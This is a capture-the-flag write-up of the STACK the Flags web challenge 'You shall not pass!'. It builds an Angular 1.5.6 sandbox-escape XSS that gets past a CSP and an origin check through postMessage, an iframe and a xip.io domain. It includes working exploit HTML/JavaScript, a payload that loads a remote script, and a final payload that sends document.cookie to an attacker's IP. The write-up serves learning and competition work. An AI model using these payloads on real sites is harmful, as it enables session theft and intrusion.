 ```yaml
---
title: STF [You shall not pass!]
author: Jason Chua (Coldspot)
date: 2020-12-08 00:00:51 +0800
categories: [CTF, STF, web]
tags: [sandbox, tech, angular, xss]
toc: true
comments: true
---
```



[STACK the Flags CTF](https://ctf.tech.gov.sg/) is an online, jeopardy style Capture-the-Flag competition organised by the folks in GovTech’s Cyber Security Group (CSG).

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/score.png)


## Initial Testing
Accessing the web site at [http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/](http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/) will lead us to a simple page shown below.

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/1.png)

Attempting to broadcast a message will pop up a jQuery-based on-screen-keyboard which can be found at [github](https://github.com/chriscook/on-screen-keyboard) 
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/2.png)
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/3.png)

Broadcasting a message will display the broadcasted text in the embedded iframe which leads to `/broadcasts`.  
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/4.png)

Entering a URL into the text box for  `Add new website to hack!` will result in the server sending a GET request to the specified URL.

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/5.png)
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/6.png)

2 other script tag can be found. `script.js` leads to a `404 Not Found` and a copy of Angular v1.5.6 is included.
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/7.png)

`/broadcasts` contains a JavaScript file called `frame.js` which will be critical in developing of the exploit.
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/8.png)

Iframes to the website can also be included in a web server on a different domain indicated by the lack of an `X-Frame-Options` header

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/9.png)

## Discovering and planning of exploit

Attempting to inject JavaScript `<img/src/onerror=alert()>` in the broadcast field will result in `Refused to execute inline event handler because it violates the following Content Security Policy directive: "script-src 'unsafe-eval' 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-...'), or a nonce ('nonce-...') is required to enable inline execution.` in the console log.  

The key-points derived from the error is that the `unsafe-eval` in `script-src` directive is set to `self` which only allows the use of `eval()` in the same origin as the target site.

The initial plan of action is to post arbitrary JavaScript on `/broadcasts` page and enter the link of `/broadcasts` in the `Add new website to hack!` form. However, one issue is that the XSS is not stored. As such, having the server attempt a GET request on `/broadcasts` page will not execute said JavaScript. 

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/10.png)

A solution to the above problem will be having the target server attempt a GET request to a web server that we own. Our web server will then include an iframe to the `/broadcasts` target URL and attempt to run the `postMessage()` function to send our payload to the `/broadcasts` endpoint which has a `receiveMessage()` function.

The payload should consist an iframe which contains a script tag that loads the angular script as well as a completed angular sandbox escape as well as CSP-bypassed code which runs arbitrary JavaScript, which had not been completed at this stage.

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/11.png)

After a long time searching (and missing the obvious payload), I decided on a payload shown in a GitHub repository [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md). 

```javascript
{{
    a=toString().constructor.prototype;a.charAt=a.trim;
    $eval('a,eval(`var _=document.createElement(\'script\');_.src=\'//localhost/m\';document.body.appendChild(_);`),a')
}}
```

This payload is ideal as it consists of the least number of bad characters as predetermined by `/broadcasts/frame.js`.

The adapted payload will have the script construct a string by reading in decimal values and converting it to ASCII from its ordinal value.

```javascript
a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))
```

To test the script locally, download the vulnerable Angular source code from the challenge website and place it in a `javascripts` folder. Next, create an `index.html` page in the root folder
```html
<html>
  <iframe id="xss"></iframe>
</html>

<script>
  setTimeout(function(){
    const frame = document.createElement('iframe')
    const inject = document.getElementById("xss")
    frame.srcdoc = `<script/src=/javascripts/angular.min.js><\/script><div/ng-app>{{a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))}}</div>`
    document.body.innerHTML = frame.outerHTML.replace(" ", "/")

    inject.src = "http://localhost"
  },
  1000)
</script>
```
The result should be something like this:


![upload-image](/assets/img/blog/STF-You-shall-not-pass!/12.png)

Assuming you have [python](https://www.python.org/) installed, run the following command in the root directory in a command prompt and open up `http://localhost` on a web browser

Python 3+
```bash
python -m http.server 80
```
Python 2+
```
python -m SimpleHTTPServer 80
```

The following picture should be the outcome:
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/13.png)

To make sure the exploit works for the server, add an `onload` function to inject to run `postMessage(frame.outerHTML)` and change inject.src to ` http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/broadcasts`. 

```html
<html>
	<iframe id="xss"></iframe>
</html>

<script>
	
	const frame = document.createElement('iframe')
	const inject = document.getElementById("xss")
	frame.srcdoc = `<script/src=/javascripts/angular.min.js><\/script><div/ng-app>{{a=toString().constructor.prototype;a.charAt=a.trim;$eval(toString().constructor.fromCharCode(97,44,97,108,101,114,116,40,34,67,79,76,68,83,80,79,84,34,41,44,97))}}</div>`

	inject.onload = _ => {
		inject.contentWindow.postMessage(frame.outerHTML, "*")
	}

	inject.src = "http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41011/broadcasts"

</script>
```

Hosting it locally and accessing it, you will realize that the page still did not work. No JavaScript alert ☹
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/14.png)

There are 2 main reasons why this script did not work. First, the payload that was sent to the server contains blacklisted characters, and second, the URL did not pass the origin check on the server.

## Fixing of exploit

To fix the first issue of our payload having blacklisted character(s), we must first identify where did the blacklisted character(s) appear. We can first check the payload that was sent with the `postMessage()` function, which was `frame.outerHTML`.

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/15.png)

As we can see, the payload contained a <space> character after iframe which was blocked in `/broadcasts/frame.js`. To circumvent this, I used a `.replace(“ “, “/”)` for the outerHTML.

The second problem lies with the origin check. Recall that in `/broadcasts/frame.js`, there is a check for the `event.origin`

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/16.png)

This Regular Expression check if `event.origin` begins with  `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg` and will return if the check fails. As such, we need a DNS to point to our server, starting with `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg`. (xip)[http://xip.io/] provide a free domain name that points to any IP address. The domain name we will use is ` yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.<IPADDRESS>.xip.io`. 

## Finishing up

Finally, the payload will be changed from `a, alert(“COLDSPOT”),a` to `a,document.location = "http://<IPADDRESS>/" + document.cookie,a`. Finally, port forward and retrieve your IP address and replace <IPADDRESS> with your own IP address.

Entering `yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg.<IPADDRESS>.xip.io` into `Add new website to hack` form will cause the server to request a URL on our local server with the flag as the filename. 

![upload-image](/assets/img/blog/STF-You-shall-not-pass!/17.png)

## Thoughts

On the CTF day itself, I did not want to mess with port forwarding as many ports from my device were open and vulnerable. As such, I used a $5/month droplet on DigitalOcean and my own domain name `coldspot.me`. 

The grand total for the server cost can be seen in the picture below:
![upload-image](/assets/img/blog/STF-You-shall-not-pass!/18.png)


More info 
>> Ask me on Discord @Coldspot#7033
